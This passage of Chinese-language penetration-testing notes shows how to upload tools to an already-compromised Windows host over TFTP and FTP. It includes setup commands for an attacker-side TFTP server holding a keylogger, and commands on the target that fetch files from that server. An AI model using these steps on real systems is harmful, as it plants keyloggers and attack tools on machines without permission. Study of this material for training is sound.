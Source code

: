 ```
// apt-get install wine
dpkg --add-architecture i386 && apt-get update && apt-get install wine32
//wine是完成上面功能的一种中间件
```



- TFTP的方式上传工具

  - 在已经远程控制目标主机的前提下，以及本地主机有启动TFTP服务的程序

  - 可以在本地主机创建一个TFTP服务器（TFTP服务目录，存放如klogger（该程序保存用户键盘的敲击信息）、whoami的Windows程序，同时该目录的权限所有者为nobody，为了后面目标主机连接该TFTP目录时直接进入）

    - 启动TFTP服务的指令

    ```
    atftpd --daemon -port <num> </dir>
    //dir为TFTP服务器目录
    ```

    - 存放某些Windows程序的目录

    ```
    /usr/share/windows-binaries/
    ```

    - 改变目录的所有者

    ```
    chown -R nobody </dir>
    ```

    - 保证指定端口开启的服务是TFTP，而不是inet等其他服务

    ```
    netstat -pantu | grep <num>
    //查看该端口对应的服务是否是TFTP
    ```

  - 目标主机端（Windows），连接本地IP，获得工具

  ```
  tftp -i <IPaddress> get <application>
  ```

- FTP的方式上传工具

  - 前提：已经远程控制目标主机
  - 本地主机配置FTP服务

  ```
  ftp://127.0.0.1
  //浏览器输入该网址后，进入FTP服务的目录即验证本地配置成功
  ```

  - FTP是非交互式的，所以可以把所有要操作的命令写入一个文件中（在本地远程控制目标的控制台窗口中完成命令写入文件的操作）
  - 在该控制台窗口中键入命令执行脚本文件

  ```
  ftp -s:<script_file>
  //script_file脚本文件为保存所有命令的文件
  ```
